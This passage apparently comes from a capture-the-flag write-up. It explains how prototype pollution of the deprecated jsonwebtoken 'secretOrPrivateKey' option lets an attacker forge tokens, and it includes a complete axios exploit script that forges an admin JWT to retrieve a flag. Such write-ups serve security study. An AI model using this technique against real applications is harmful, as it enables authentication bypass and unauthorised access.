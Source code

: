 ```js
  ): GetSecretKeyResult | Promise<GetSecretKeyResult> {
    const secret = /* something */;

    return secret instanceof Promise
      ? secret.then((sec) => this.overrideSecretFromOptions(sec))
      : this.overrideSecretFromOptions(secret);
  }
```

As you can see here, after trying to do something with the secret, it will try to check if `<this>.options.secretOrPrivateKey` already exists and will try to overwrite current secret with it. This is the support for the [deprecated `secretOrPrivateKey` property](https://github.com/auth0/node-jsonwebtoken#jwtsignpayload-secretorprivatekey-options-callback), which in this case, ideal for our attack since the server doesn't define this property.

**Attack summary**
- Send object to `/auth` with payload to pollute `__proto__.secretOrPrivateKey` to our desired key
- Get `/user` (since for the injection to work it needs to call `flatten` on our object) using the token server gives before
- Get `/flag` with a token signed using our secret with data `{ role: "admin" }` and get the flag

**Demo script**
```js
const axios = require("axios");
const jwt = require("jsonwebtoken");

async function attack (url, secret = "sus") {
	axios.defaults.baseURL = url;
	axios.defaults.withCredentials = true;

	let x = await axios.post("/auth", {
		username: {
			"__proto__.secretOrPrivateKey": secret,
			// restart the instance and include the line below if server returns status 500
			// "__proto__.isValid": "[Circular (username.constructor)]"
		},
		password: ""
	});

	axios.defaults.headers.common['Cookie'] = "token=" + x.data.access_token + ";";

	try {
		await axios.get("/user");
	} catch (e) { console.log(e, "injection failed") }

	axios.defaults.headers.common['Cookie'] = "token=" + jwt.sign({ role: "admin" }, secret) + ";";

	try {
		let f = await axios.get("/flag");
		console.log("Flag:", f.data.flag)
	} catch (e) { console.log(e, "flag get failed") }
}

attack('http://blackpinker.rocks:30759');
```
**Result**
